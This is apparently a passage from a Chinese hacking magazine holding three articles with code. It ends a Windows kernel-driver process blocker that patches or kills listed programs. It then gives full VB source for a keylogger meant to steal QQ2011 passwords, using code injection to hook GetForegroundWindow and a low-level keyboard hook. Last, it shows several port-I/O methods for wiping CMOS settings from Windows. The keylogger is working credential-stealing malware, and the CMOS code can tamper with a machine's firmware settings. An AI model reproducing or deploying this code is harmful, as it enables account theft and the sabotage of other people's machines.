    // 定位到 OEP 的 RVA
    AddressOfEntryPointer_RVA = *(PULONG *)((PBYTE)PeHeader + 0x28);

    // 定位到 OEP 的 VA
    OEP_VA = (ULONG *)((PBYTE)ImageBaseAddress + AddressOfEntryPointer_RVA);
}
```

```c
ProbeForRead(OEP_VA, 0x20, 1);

// 修改内存属性
MemSize = 0x20;
tempaddress = OEP_VA;
status = g_ZwProtectVirtualMemory(0xFFFFFFFF, &tempaddress, &MemSize,
                                  PAGE_READWRITE, &OldProtect);
if (NT_SUCCESS(status)) {
    memcpy((PCHAR)OEP_VA, (PCHAR)&patchcode[0], 5);
    g_ZwProtectVirtualMemory(0xFFFFFFFF, &tempaddress, &MemSize,
                             OldProtect, NULL);
    status = STATUS_SUCCESS;
}

if (IsNotAttached == 1)
    KeDetachProcess();
if (ProcessHandle)
    ZwClose(ProcessHandle);
if (EProcess)
    ObfDereferenceObject(EProcess);
return status;
}

// 进程监控回调函数
VOID ProcessCreateMon(IN HANDLE hParentId, IN HANDLE PId, IN BOOLEAN bCreate)
{
    ULONG ulCurrentProcessId;
    NTSTATUS status;
    HANDLE hProcess = NULL;
    ANSI_STRING pImageName;
    PCHAR outbuf;
    ULONG outlen;
    PEPROCESS EProcess = NULL;
    HANDLE handle = 0;

    if (bCreate) {
        if (PId != 4 && PId != 8) {
            RtlInitAnsiString(&pImageName, "test");
            GetProcPath(PId, &pImageName);
            outbuf = (PCHAR)pImageName.Buffer;
            outlen = pImageName.Length + 1;
            PsLookupProcessByProcessId((ULONG)PId, &EProcess);

            DbgPrint("CREATE PROCESS = PROCESS Path: %s, PROCESS PARENTID: %d, PROCESS ID: %d, PROCESS ADDRESS %x:\n",
                     outbuf, hParentId, PId, EProcess);

            if (IsNotProtect(outbuf)) {
                if (NT_SUCCESS(PatchProcessEntry(PId))) {
                    DbgPrint("PATCH Process == PROCESS ID: %d OK\n", PId);
                } else {
                    status = ObOpenObjectByPointer((PVOID)EProcess, OBJ_KERNEL_HANDLE,
                                                   NULL, PROCESS_ALL_ACCESS, NULL,
                                                   KernelMode, &handle);
                    if (NT_SUCCESS(status)) {
                        // ...
                    }
                }
            }
        }
    }
}
```

```c
status = ZwTerminateProcess(handle, STATUS_SUCCESS);
if (NT_SUCCESS(status)) {
    DbgPrint("ARREST -- PROCESS ID: %d OK\n", PId);
}
...
// 获得进程的 NT 路径
BOOLEAN GetProcPath(IN HANDLE PID, OUT PANSI_STRING pImageName)
{
    NTSTATUS status;
    HANDLE hProcess = NULL;
    CLIENT_ID clientid;
    OBJECT_ATTRIBUTES ObjectAttributes;
    ULONG returnedLength;
    ULONG bufferLength;
    PVOID buffer;
    PUNICODE_STRING uniNtProcename = {0};
    UNICODE_STRING uniDosProcename;
    WCHAR DosProcessNameW[MAX_PATH*2] = {0};
    BOOL result;

    if (!MmIsAddressValid(pImageName)) return FALSE;
    pImageName->Length = 0;
    pImageName->MaximumLength = 0;
    pImageName->Buffer = NULL;

    InitializeObjectAttributes(&ObjectAttributes, 0,
        OBJ_CASE_INSENSITIVE|OBJ_KERNEL_HANDLE, 0, 0);
    clientid.UniqueProcess = PID;
    clientid.UniqueThread = 0;

    ZwOpenProcess(&hProcess, PROCESS_ALL_ACCESS,
        &ObjectAttributes, &clientid);

    status = ZwQueryInformationProcess(hProcess,
        ProcessImageFileName,
        NULL,
        0,
        &returnedLength);

    if (status != STATUS_INFO_LENGTH_MISMATCH) {
        return FALSE;
    }
    ...
}
```

```c
bufferLength = returnedLength - sizeof(UNICODE_STRING);
buffer = ExAllocatePoolWithTag(PagedPool, returnedLength, 'ipgD');
if (buffer == NULL) return FALSE;

status = ZwQueryInformationProcess(hProcess, ProcessImageFileName,
    buffer, returnedLength, &returnedLength);

if (NT_SUCCESS(status)) {
    uniNtProcename = (PUNICODE_STRING)buffer;
    uniDosProcename.Buffer = DosProcessNameW;

    result = QueryProcessDosPathW(uniNtProcename->Buffer, &uniDosProcename);
    if (result) {
        if (RtlUnicodeStringToAnsiString(pImageName, &uniDosProcename, TRUE)
            != STATUS_SUCCESS) {
            return FALSE;
        }
    } else {
        RtlUnicodeStringToAnsiString(pImageName, uniNtProcename, TRUE);
    }
}
ExFreePool(buffer);

HANDLE MyOpenFile(IN PCWSTR ProcessPathw)
{
    HANDLE FileHandle;
    OBJECT_ATTRIBUTES oa;
    IO_STATUS_BLOCK iosb = {0};
    UNICODE_STRING uniProcessPath = {0};

    if (ProcessPathw) {
        RtlInitUnicodeString(&uniProcessPath, ProcessPathw);
        InitializeObjectAttributes(&oa, &uniProcessPath,
            OBJ_KERNEL_HANDLE|OBJ_CASE_INSENSITIVE, NULL, NULL);

        status = IoCreateFile(&FileHandle,
            GENERIC_READ,
            &oa,
            &iosb,
            0,
            FILE_ATTRIBUTE_NORMAL,
            FILE_SHARE_READ,
            FILE_OPEN,
            FILE_NON_DIRECTORY_FILE|FILE_SYNCHRONOUS_IO_NONALERT,
            NULL,
            0,
            CreateFileTypeNone,
            NULL,
            IO_NO_PARAMETER_CHECKING);
        if (NT_SUCCESS(status))
            result = FileHandle;
    }
    return result;
}
```

```c
// 将 NT 路径转换为 Dos 路径
BOOL QueryProcessDosPathW(IN PWSTR ProcessPathw, OUT PUNICODE_STRING ProcessDosPathw)
{
    HANDLE hFile;
    NTSTATUS status;
    PFILE_OBJECT fileobj;
    POBJECT_NAME_INFORMATION ObjectNameInformation;
    int result;
    result = 0;
    hFile = MyOpenFile(ProcessPathw);
    if (hFile)
    {
        status = ObReferenceObjectByHandle(hFile,0,*IoFileObjectType,KernelMode,&fileobj,NULL);
        if (NT_SUCCESS(status))
        {
            status = IoQueryFileDosDeviceName(fileobj,&ObjectNameInformation);
            if (NT_SUCCESS(status))
            {
                ProcessDosPathw->Length = ObjectNameInformation->Name.Length;
                ProcessDosPathw->MaximumLength = ObjectNameInformation->Name.MaximumLength;
                memcpy(ProcessDosPathw->Buffer,ObjectNameInformation->Name.Buffer,ProcessDosPathw->Length);
                result = 1;
            }
        }
        if (fileobj)
            ObfDereferenceObject(fileobj);
        if (hFile)
            ZwClose(hFile);
        if (ObjectNameInformation)
            ExFreePoolWithTag(ObjectNameInformation, 0);
    }
    return result;
}

// 加载黑白名单
BOOLEAN LoadRule(IN LPWSTR RuleFilePathw)
{
    HANDLE hFile;
    NTSTATUS status;
    IO_STATUS_BLOCK iosb={0};
    CHAR RuleContent[0x200]={0};
    ULONG BytesLen;
    PCHAR Temppos,FilePos,SignPos;
    ULONG slen;
    BOOLEAN result;

    PPROCESS_RULE ProcessRule=NULL;
    PCHAR TempRule;
    result = FALSE;
    hFile = MyOpenFile(RuleFilePathw);
    if (hFile)
    {
        // 简单一些，大小被固定，后面可以修正
        status = ZwReadFile(hFile,NULL,NULL,NULL,&iosb,&RuleContent,0x200,NULL,NULL);
        if (NT_SUCCESS(status))
        {
            BytesLen =(ULONG)iosb.Information;
            Temppos = RuleContent;
            if (BytesLen>0)
            {
                ProcessRule = ExAllocatePoolWithTag(NonPagedPool,sizeof(PROCESS_RULE),0);
                if (!ProcessRule)
                    return FALSE;
                memset(ProcessRule,0,sizeof(PROCESS_RULE));
            }
            g_policyRule = ProcessRule;
            while (TRUE)
            {
                FilePos = strchr(Temppos,0x3D);
                SignPos = strchr(Temppos,0x3B);
                slen = SignPos-FilePos;
                RtlCopyMemory(&ProcessRule->ProcessName[0],(PCHAR)(FilePos+1),slen-1);
                ProcessRule->IsNotProtected = *(CHAR*)(SignPos+1);
                Temppos = SignPos+2;
                if (*(CHAR*)Temppos==NULL)
                    break;
                if (!(ProcessRule->Next))
                {
                    TempRule = ExAllocatePoolWithTag(NonPagedPool,sizeof(PROCESS_RULE),0);
                    if (!TempRule)
                        return FALSE;
                    memset(TempRule,0,sizeof(PROCESS_RULE));
                    ProcessRule->Next = TempRule;
                    ProcessRule = ProcessRule->Next;
                }
            }
            result = TRUE;
        }
    }
    if (hFile)
        ZwClose(hFile);
    return result;
}

// 找到 ZwProtectVirtualMemory 的地址
ULONG Find_ZwProtectVirtualMemory_Address(ULONG ZwPulseEvent_Address)
{
    BYTE StartInstruction[4]={0};
    ULONG result;
    int i;
    ULONG FindAddress,EndAddress;
    result=0;
    // 这里 ZwProtectVirtualMemory 的起始指令: mov EAX, 89
    StartInstruction[0] = *(CHAR*)ZwPulseEvent_Address;
    StartInstruction[1] = (*(CHAR *)((PCHAR)ZwPulseEvent_Address+1))-1;
    StartInstruction[2] = (*(CHAR *)((PCHAR)ZwPulseEvent_Address+2));
    StartInstruction[3] = (*(CHAR *)((PCHAR)ZwPulseEvent_Address+3));
    FindAddress = ZwPulseEvent_Address - 0x800;
    EndAddress = ZwPulseEvent_Address;
    for(i=FindAddress;i<=EndAddress;i++) {
        if (StartInstruction[0]==*(BYTE*)i &&
            StartInstruction[1]==*(BYTE*)((PCHAR)i+1) &&
            StartInstruction[2]==*(BYTE*)((PCHAR)i+2) &&
            StartInstruction[3]==*(BYTE*)((PCHAR)i+3)) {
            result = i;
            DbgPrint("funcaddress=0x%x\n", i);
            break;
        }
    }
    return result;
}
```

## PROCESS NAME

```text
=winword.exe;0
=notepad.exe;0
=qq.exe;0
=calc.exe;1
```

这里给的 ProcessRule.dat 文件必须放在 C 盘根目录下，其文件格式如下：这里采取进程文件名字判定来分辨是否为黑白名单上的进程，其中文件名请全部小写，0 代表禁止，1 代表运行。这里面只分配 0x400 的空间。注意局部函数的变量不要太大，否则造成堆栈溢出。

测试环境：WINXP SP3 + WDK7600。文章到这里就结束，此时结束进程不会再有任何错误提示框出现……我已经给出最核心的代码和原理，读者可以自己修改完善。虽然有的也使用 MD5 校验来判定，但是由于挂钩函数的问题，最后仍然会提示错误消息框。本文给出的方案应该是比较正确的。也可以 Patch 入口地址，驱动防火墙更加简单些。最后感谢 xikug 大牛的指导，由于赶写毕业论文在即，仓促之间难免错误，请黑防读者不吝批评指教！

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：QQ 密码，SetWindowsHookEx


## 无线劫记录 QQ2011 密码

图/文 胡文亮

本杂志曾经刊登过两篇分析 QQ 密码保护原理的文章，但两位作者都没有提供如何绕过 QQ 反键盘记录机制来记录 QQ 密码的代码，可能他们都觉得代码的危害性太大，所以不敢放出吧。今天我放出一份可以记录 QQ2011 密码的完整代码，让大家知道编程实现的具体过程。这个工程最初是由名为 rqqeq 的网友发在紫水晶编程技术论坛上的。

我下载后去除了冗余的代码，修正了功能上的错误，放到了本杂志上。在此特地感谢 rqqeq 网友。先简单说说 QQ 反键盘记录机制的原理。在早些年，QQ 曾经使用 NP 等内核级插件进行密码保护，由于兼容性差（据说在 VISTA 系统下经常导致蓝屏），所以腾讯放弃了，改用 Ring 3 级密码保护措施。并不是让键盘记录的函数失效，而是使用消息钩子（WH_KEYBOARD_LL），在 QQ 主窗体得到焦点的时候，不断发送随机字符，让你不仅记录了真正的密码，也记录了 QQ 发送的随机字符，最终得到的都是混合密码和随机字符串。当然，这个字符串对于盗号者来说是毫无意义的，因为你根本无法分割出密码和随机字符。所以，要突破 QQ 的反键盘记录，有以下三个步骤：

- 不让 QQ 知道自己获得了焦点（HOOK GetForegroundWindow 函数）。
- 查找 QQ 的主窗口句柄，得到密码框（实际上就是标准的 edit 控件）的句柄，并依附密码框所属的线程。
- 注册 WH_KEYBOARD_LL 钩子实现键盘记录，当检测到密码框获得焦点时，就进行键盘记录。

## 一、挂钩 QQ 进程内部的 GetForegroundWindow 函数

QQ 通过使用 GetForegroundWindow 函数获得当前被激活的窗口，如果对比发现当前被激活的窗口就是自己的窗口，就会不断注册 WH_KEYBOARD_LL 钩子，来扰乱键盘记录，所以当前要务，就是不能让 QQ 得知自己的窗口被激活了。挂钩 GetForegroundWindow 函数不用注入 DLL，直接通过代码注入即可。原理也不用多说了，就是修改 GetForegroundWindow 的前 5 字节为 jmp，跳转到一片自己申请的内存处。而自己申请的那片内存的长度仅需一个字节，内容为 0xC3 即可（代码里申请了五个字节，但实际上只需要一个字节，后面全部填充 NOP 了），代码如下：

```vb
Public Function Hook(ByVal pid As Long)
    Dim h As Long
    Dim FuncAddr As Long
    Dim NewCode(4) As Byte
    Dim HookCode(4) As Byte
    Dim CodeAddr As Long
    h = OpenProcess(PROCESS_ALL_ACCESS, 0, pid)
    ...
    NewCode(0) = &HE9 'jmp
    HookCode(0) = &HC3 'ret
    HookCode(1) = &H90 'nop
    HookCode(2) = &H90 'nop
    HookCode(3) = &H90 'nop
    HookCode(4) = &H90 'nop
    FuncAddr = GetProcAddress(GetModuleHandleA("USER32.DLL"), "GetForegroundWindow")
    CodeAddr = VirtualAllocEx(h, ByVal 0, 5, MEM_COMMIT Or MEM_RESERVE, PAGE_EXECUTE_READWRITE)
    ...
    CopyMemory VarPtr(NewCode(1)), VarPtr(CodeAddr - FuncAddr - 5), 4
    WriteProcessMemory h, ByVal CodeAddr, HookCode(0), 5, 0
    WriteProcessMemory h, ByVal FuncAddr, NewCode(0), 5, 0
    CloseHandle h
End Function
```

## 二、找到密码框句柄并依附到密码框所属线程

先解释一下为什么不仅要“找到密码框句柄”还需要“依附到密码框所属线程”。有个叫 GetFocus 的 Win32API 可以获得当前拥有焦点的控件的句柄，但只针对自身进程有效，对别的进程无效。举个例子，即使 QQ 的密码框得到了焦点，但 QQ 以外的进程直接用 GetFocus 也是无法得知 QQ 的哪个控件得到了焦点。为了避免这个问题，MSDN 是这么描述的：

> Use the GetForegroundWindow function to retrieve the handle to the window with which the user is currently working. You can associate your thread's message queue with the windows owned by another thread by using the AttachThreadInput function.

微软的描述总是文绉绉的，简单点说，就是如果你要得知其他进程（准确地说是线程）所拥有的控件是否得到焦点，直接用 GetFocus 不行，但是在使用 GetFocus 前先用 AttachThreadInput 函数“依附”到控件所属线程就行了，代码如下：

```vb
Dim hwnd As Long
hwnd = FindWindowA("TXGuiFoundation", "QQ2011")
If hwnd = 0 Then
    MsgBox "QQ not found!"
    Exit Sub
End If
hwnd_qq_num = FindWindowExA(hwnd, 0, "TXEdit", 0)
hwnd_qq_psw = FindWindowExA(hwnd, 0, "Edit", 0)
If hwnd_qq_num = 0 Or hwnd_qq_psw = 0 Then
    MsgBox "Some HWND not found!"
    Exit Sub
End If
edit_tid = GetWindowThreadProcessId(hwnd, qpid)
AttachThreadInput GetCurrentThreadId, edit_tid, 1
Hook qpid
```

## 三、注册 WH_KEYBOARD_LL 钩子实现键盘记录

用 SetWindowsHookExA 注册 WH_KEYBOARD_LL 钩子：

```vb
hHook = SetWindowsHookEx(WH_KEYBOARD_LL, AddressOf MyKBHook, GetModuleHandleA(0), 0)
```

# 把虚拟键码（VirtualKey）变成字符

```vb
Public Function MyKBHook(ByVal ncode As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
    Dim vKey As Long
    If ncode = 0 Then
        If wParam = WM_KEYDOWN Then
            'CopyMemory mymsg, ByVal lParam, Len(mymsg)
            'AddChr mymsg.vKey
            If GetFocus() = hwnd_qq_psw Then
                CopyMemory ByVal VarPtr(vKey), ByVal lParam, 4
                AddChr vKey
            End If
        End If
    End If
    MyKBHook = CallNextHookEx(hHook, ncode, wParam, lParam)
End Function
```

以下是把虚拟键码转化为字符：

```vb
Private Sub AddChr(ByVal dw As Long)
    Select Case dw
        Case 32:  PrintTXT "{空格键}"
        Case 219: PrintTXT "["
        Case 221: PrintTXT "]"
        Case 186: PrintTXT ";"
        Case 222: PrintTXT "'"
        Case 188: PrintTXT ","
        Case 191: PrintTXT "/"
        Case 96:  PrintTXT "0"
        Case 97:  PrintTXT "1"
        Case 98:  PrintTXT "2"
        Case 99:  PrintTXT "3"
        Case 100: PrintTXT "4"
        Case 101: PrintTXT "5"
        Case 102: PrintTXT "6"
        Case 103: PrintTXT "7"
        Case 104: PrintTXT "8"
        Case 105: PrintTXT "9"
        Case 106: PrintTXT "*"
        Case 107: PrintTXT "+"
        Case 109: PrintTXT "-"
        Case 110, 190: PrintTXT "."
        Case 111: PrintTXT "/"
        ...
    End Select
End Sub
```

```vb
'（右栏为同一 Select Case 的后续）
Case 13: PrintTXT "{ENTER}"
Case 144: PrintTXT "{NumLock}"
Case 65: PrintTXT IIf(IsCapLockOn(), "A", "a")
Case 66: PrintTXT IIf(IsCapLockOn(), "B", "b")
Case 67: PrintTXT IIf(IsCapLockOn(), "C", "c")
Case 68: PrintTXT IIf(IsCapLockOn(), "D", "d")
Case 69: PrintTXT IIf(IsCapLockOn(), "E", "e")
Case 70: PrintTXT IIf(IsCapLockOn(), "F", "f")
...
Case 90: PrintTXT IIf(IsCapLockOn(), "Z", "z")
Case 48: PrintTXT "0"
Case 49: PrintTXT "1"
Case 50: PrintTXT "2"
Case 51: PrintTXT "3"
Case 52: PrintTXT "4"
Case 53: PrintTXT "5"
...
Case 54
    PrintTXT "6"
Case 55
    PrintTXT "7"
Case 56
    PrintTXT "8"
Case 57
    PrintTXT "9"
Case 192
    PrintTXT "`"
Case 189
    PrintTXT "-"
Case 187
    PrintTXT "="
Case 220
    PrintTXT "\\"
Case 8
    PrintTXT "{退格}"
Case 44
    PrintTXT "{小键盘-印屏幕键}"
Case 45
    PrintTXT "{小键盘-插入键}"
Case 46
    PrintTXT "{小键盘-删除键}"
Case 145
    PrintTXT "{小键盘-滚动锁定键}"
Case 36
    PrintTXT "{小键盘-起始键}"
Case 35
    PrintTXT "{小键盘-结束键}"
Case 19
    PrintTXT "{小键盘-暂停中断键}"
Case 33
    PrintTXT "{小键盘-上页}"
Case 34
    PrintTXT "{小键盘-下页}"
Case 38
    PrintTXT "上"
Case 40
    PrintTXT "下"
Case 37
    PrintTXT "左"
Case 39
    PrintTXT "右"
Case 27
    PrintTXT "Esc"
Case 112
    PrintTXT "F1"
Case 113
    PrintTXT "F2"
Case 114
    PrintTXT "F3"
Case 115
    PrintTXT "F4"
Case 116
    PrintTXT "F5"
Case 117
    PrintTXT "F6"
Case 118
    PrintTXT "F7"
Case 119
    PrintTXT "F8"
Case 120
    PrintTXT "F9"
Case 121
    PrintTXT "F10"
Case 122
    PrintTXT "F11"
Case 123
    PrintTXT "F12"
Case 9
    PrintTXT "{TAB}"
Case 20
    PrintTXT "{CapsLock}"
Case 160
    PrintTXT "{左 Shift}"
Case 162
    PrintTXT "{左 Ctrl}"
Case 91
    PrintTXT "{左 Win}"
Case 13
    PrintTXT "{ENTER}"
Case 161
    PrintTXT "{右 Shift}"
Case 92
    PrintTXT "{右 Win}"
Case 93
    PrintTXT "{弹菜单键}"
Case 163
    PrintTXT "{右 Ctrl}"
Case Else
    PrintTXT "{VKEY=" & CStr(dw) & "}"
End Select
End Sub
```

这个函数里还有两个子函数：PrintTXT 是把字符追加在 TextBox 的尾部，IsCapLockOn 是判断键盘上的大写锁定键有没有开启。

接下来进行效果测试。首先运行 QQ，再运行我的程序，点击“record”按钮，就能进行键盘记录了。而且只有密码框获得焦点时，才会记录键盘的按键。如果按下了退格键之类的按键，也会有相应的记录，如图 1 所示。


图 1

接下来给腾讯两个建议，如何让这种键盘记录的方式失效。

- 1\. 主窗体采用随机类名和随机标题，输入用户名和密码的输入框使用 GDI“画上去”，使之无句柄，这样就无法记录了。用 GDI+ 制作输入框，在网上有不少的例子，但我感觉这个方法太过山寨，不符合大厂风范。
- 2\. 干脆把 QQ 做成一个 DirectX 9 程序，输入框直接用 DirectX 画出来，就像是游戏里的输入框一样，这样就能彻底防止键盘记录了（不是不能记录键盘按键，而是根本找不到特征，不知从何处开始记起）。

但是可能导致不少电脑无法运行 QQ，因为不少电脑还是使用 Intel 的 GMA900/910/950 集成显卡（要知道世界上很多人使用的显卡是 Intel 的集成显卡，占据了世界 60% 的市场份额，NVIDIA 和 AMD/ATI 的份额加起来不到 40%），这种集成显卡只能可怜地支持到 DirectX 6，根本无法运行 DirectX 9 程序。至于有没有别的更好的方案，我还真的没想到。

前置知识：VC 汇编

关键词：CMOS、NtSystemDebugControl、Native API


# 清空 CMOS 的几种方法

图/文 李明玫

看过以前黑防上有同学写过的清空 CMOS 的小程序，挺好用的，但是方法介绍得不是很详细。这篇文章主要从端口读/写入手，详细阐述在 Windows 系统下如何操纵端口。操纵端口无非有这么几种用途：操纵 PC SPEAKER 发声，清空 CMOS，读/写硬盘端口穿透还原系统；高校里面经常用来做采集数据的项目是从端口读/写 PCI 卡。

我先列一下端口读/写的几种方法吧。

- 1\. 六个宏定义
  - READ_PORT_UCHAR
  - READ_PORT_USHORT
  - READ_PORT_ULONG
  - WRITE_PORT_UCHAR
  - WRITE_PORT_USHORT
  - WRITE_PORT_ULONG
- 2\. 内嵌汇编 In 和 Out 特权指令的使用。
- 3\. Native API NtSystemDebugControl 的使用。
- 4\. 使用函数 Ke386QueryAccessMap、Ke386SetIoAccessMap、Ke386IoSetAccessProcess。
- 5\. WinIO 的使用。

## 第一种方法（需要驱动），使用了 6 个宏定义

它们分别是：

- READ_PORT_UCHAR
- READ_PORT_USHORT
- READ_PORT_ULONG
- WRITE_PORT_UCHAR
- WRITE_PORT_USHORT
- WRITE_PORT_ULONG

这是一种非常稳定的方法，是微软推荐的一种做法。宏定义大家都知道，会根据 OS 版本的不同调用不同的函数。这六个函数类似于 DOS 下 debug 命令中的 IN 和 OUT，并且在 WinIO 中作者也是用了这六个函数来进行端口读/写的。R3 下主要代码如下。我们使用 CreateFile 打开我们在驱动中创建的 `\\.\CMOS` 这个符号链接。注意 C++ 中要表示成 `\\`，然后向 70 和 71 端口写入垃圾数据，所以代码如图 1 所示。

```text
（代码块截图，图 1：包含 CreateFile、DeviceIoControl、WRITE_PORT 等调用示例）
```

图 1

测试程序都是 GUI 程序，成功后在 CMD 窗口中打印出 success，截图测试程序在虚拟机中如图 2 所示。然后 R3 程序中我们依然用 CreateFile 打开我们创建的符号链接 `\\.\CMOSASM`，测试方法和以前一样，屏幕依旧输出 success，如图 5 所示。


图 2

测试的时候首先在 VMware 安装的 XP SP3 启动的时候设置 CMOS 密码，然后用驱动加载工具加载我们的驱动，将测试程序拖入 cmd 中查看是否成功，如图 3 所示。


图 3

这时候重启虚拟机，会发现 CMOS 已经被清空，说明我们的端口读/写成功。

## 第二种方法（需要驱动）内嵌汇编 In 和 Out 特权指令函数使用

大家可能都试过从光驱启动，很多优化版本的 XP 光盘往往集成了很多工具，其中进入 DOS 输入一个命令就可以清空 CMOS。

- `o 70 xx`[回车]（xx 为 00-99 之间的任意数值）
- `o 71 xx`[回车]
- `q`[回车]

DOS 下只是用了 CPU 的实模式，但是 Windows 下充分利用了 CPU 的保护模式，不挂驱动想要进入 R0 是不容易做到的。当然调用 Native API 可以不挂驱动做到很多需要挂驱动才能做到的事情。但 Native API 的缺点就是因 OS 的版本号不同，Native API 的某些功能号不同，或者干脆被微软和谐了，这个后面我们在 NtSystemDebugControl 里面细说。第二种方法的关键就在于对于六个函数的封装。这个代码比较多，截图如图 4 所示。关键就在于这六个函数的封装。看出点门道来了吧，其实和六个宏定义是差不多。

```c
UCHAR In_8(PUCHAR Port) { ... }
USHORT In_16(PUSHORT Port) { ... }
ULONG In_32(PULONG Port) { ... }
void Out_32(PULONG Port, ULONG Value) { ... }
void Out_16(PUSHORT Port, USHORT Value) { ... }
void Out_8(PUCHAR Port, UCHAR Value) { ... }
```

图 4


图 5

## 第三种方法（不需要驱动）NtSystemDebugControl

这个方法是比较好也是比较简单的一个方法。但是缺点也是致命的，无法在 Win7 下使用。为什么呢？Win7 下把 NtSystemDebugControl 的很多功能给和谐了。我先把代码贴出来，然后说一下原理吧。

我们要怎么样才能知道一个权限对应的 LUID 值是多少呢？这就要用到另外一个 API 函数 LookupPrivilegeValue。

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(lib, "advapi32")
#define NTAPI __stdcall
#define CHK(a) if (!(a)) { printf(#a " failed\n"); return 0; }

typedef int NTSTATUS;
typedef enum _SYSDBG_COMMAND {
    SysDbgSysReadIoSpace = 14,
    SysDbgSysWriteIoSpace = 15
} SYSDBG_COMMAND, *PSYSDBG_COMMAND;

typedef NTSTATUS (NTAPI *PZwSystemDebugControl)(
    SYSDBG_COMMAND ControlCode,
    PVOID InputBuffer,
    ULONG InputBufferLength,
    PVOID OutputBuffer,
    ULONG OutputBufferLength,
    PULONG ReturnLength
);

PZwSystemDebugControl ZwSystemDebugControl = NULL;

typedef struct _IO_STRUCT {
    DWORD IoAddr;
    DWORD Reserved1;
    PVOID pBuffer;
    DWORD NumBytes;
    DWORD Reserved4;
    DWORD Reserved5;
    DWORD Reserved6;
    DWORD Reserved7;
} IO_STRUCT, *PIO_STRUCT;

// 紧接着下面封装了一个提升进程权限的代码
// Windows 核心编程里面也有
BOOL EnablePrivilege(PCSTR name)
{
    HANDLE hToken;
    BOOL rv;
    TOKEN_PRIVILEGES priv = { 1, {0, 0, SE_PRIVILEGE_ENABLED} };
    ...
}
```

```c
/*
LookupPrivilegeValue(
    0,
    name,
    &priv.Privileges[0].Luid
);
OpenProcessToken(
    GetCurrentProcess(),
    TOKEN_ADJUST_PRIVILEGES,
    &hToken
);
AdjustTokenPrivileges(
    hToken,
    FALSE,
    &priv,
    sizeof priv,
    0,
    0
);
rv = GetLastError() == ERROR_SUCCESS;
CloseHandle(hToken);
return rv;
}

BYTE InPortB(int Port)
{
    BYTE Value;
    IO_STRUCT io;
    io.IoAddr = Port;
    io.Reserved1 = 0;
    io.pBuffer = (PVOID)(PULONG)&Value;
    io.NumBytes = sizeof(BYTE);
    io.Reserved4 = 1;
    io.Reserved5 = 0;
    io.Reserved6 = 1;
    io.Reserved7 = 0;
    ZwSystemDebugControl(
        SysDbgSysReadIoSpace,
        &io,
        sizeof(io),
        NULL,
        0,
        NULL
    );
    return Value;
}

void OutPortB(int Port, BYTE Value)
{
    IO_STRUCT io;
    io.IoAddr = Port;
    io.Reserved1 = 0;
    io.pBuffer = (PVOID)(PULONG)&Value;
    io.NumBytes = sizeof(BYTE);
    io.Reserved4 = 1;
    io.Reserved5 = 0;
    io.Reserved6 = 1;
    io.Reserved7 = 0;
    ZwSystemDebugControl(
        SysDbgSysWriteIoSpace,
        &io,
        sizeof(io),
        NULL,
        0,
        NULL
    );
}
*/
```

```c
int main(void)
{
    HMODULE hNtdll;
    // ULONG ReturnLength;
    OSVERSIONINFO OSVersionInfo;
    OSVersionInfo.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);

    EnablePrivilege(SE_DEBUG_NAME);
    FCHK((hNtdll = LoadLibrary("ntdll.dll")) != NULL);
    FCHK((ZwSystemDebugControl =
        (PZwSystemDebugControl)GetProcAddress(hNtdll,
        "ZwSystemDebugControl")) != NULL);
    FCHK(((void*)GetVersionEx(&OSVersionInfo)) != NULL);

    if (OSVersionInfo.dwPlatformId == VER_PLATFORM_WIN32_NT &&
        OSVersionInfo.dwMajorVersion >= 5 &&
        OSVersionInfo.dwMinorVersion >= 1)
    {
        // Windows XP 以上
        OutPortB(0x70, (BYTE)(12345678));
        OutPortB(0x71, (BYTE)(87654567));
        printf("success");
    }
    else
    {
        printf("This program require Windows XP or Windows 2003.\n");
    }
    return 0;
}
```

NtSystemDebugControl 可以参考两篇资料。一篇是关于 Native API 的，另一篇就是 tombkeeper 老大的《对 Native API NtSystemDebugControl 的分析》这篇文章。

在这里我们手动跟一下 NtSystemDebugControl 这个函数，测试环境是 XP SP3。

输入 `u NtSystemDebugControl`，如图 6 所示。注意这两个函数：

- KdpSysReadIoSpace  
- KdpSysWriteIoSpace

原来 NtSystemDebugControl 是调用这两个函数来进行端口读/写的。

我们再跟一下这两个函数。先跟一下 KdpSysReadIoSpace 这个函数吧，看一下文中调用哪个函数进行端口读/写。

`u KdpSysReadIoSpace`

如图 7 所示，注意图 7 的三个 call，很熟悉的函数吧：

- `nt!_imp__READ_PORT_ULONG`  
- `nt!_imp__READ_PORT_USHORT`  
- `nt!_imp__READ_PORT_UCHAR`

你再跟一下 KdpSysWriteIoSpace 会发现它其实也是调用三个宏定义来的：

- `WRITE_PORT_UCHAR`
- `WRITE_PORT_USHORT`
- `WRITE_PORT_ULONG`


总结一下：

NtSystemDebugControl -> KdpSysReadIoSpace -> 三个宏定义

NtSystemDebugControl -> KdpSysWriteIoSpace -> 三个宏定义

## 第四种方法 Ke386QueryAccessMap / Ke386SetIoAccessMap / Ke386IoSetAccessProcess

由于这个方法“看雪”的 combojiang 大侠有详细的介绍，在这里不再浪费篇幅详细介绍了，大家可以参考这个帖子，介绍得很详细：  
http://bbs.pediy.com/showthread.php?p=434124#post434124

## 第五种方法 WinIO 的使用

最新 WinIO 3.0 可以从这里下载：http://www.internals.com/。

WinIO 3.0 里面不自带 lib 文件，可以自己用 VS2008 编译，可能会编译出错，这里提供一下我编译后的 lib 文件，见附件。

WinIO 调用的也是六个宏定义，这里为什么拿出篇幅来说这个呢，因为 WinIO 对于各个版本的 Windows 都支持得很好。Win2000-Win7 版本都支持，当然 x64 上 WinIO 没有签名，调用的方法帮助文档里面也说得很清楚，我给出两个示例来说明 WinIO 的使用。

方法 1：使用 `.lib` 文件的时候加载 DLL，代码如下。此方法需要用 VS2008 编译一下 WinIO 得到 lib 文件。

```cpp
#include "stdio.h"
#include "windows.h"
#include ".\WinIo\Source\Dll\winio.h"
#pragma comment(lib,"WinIo32")
WCHAR *str=L".\\WinIo\\Binaries\\WinIo32.sys";
int main()
{
    bool __stdcall a = InitializeWinIo();
    if(a == 0)
        printf("WinIo 初始化失败");
    else
    {
        bool bReta = SetPortVal(0x70,12224344,4);
        bool bRetb = SetPortVal(0x71,34543534,4);
        if(bReta && bRetb) printf("successful");
        ShutdownWinIo();
    }
    return 0;
}
```

方法 2：不使用 `.lib` 文件，使用 `LoadLibrary` 和 `GetProcAddress` 动态加载。

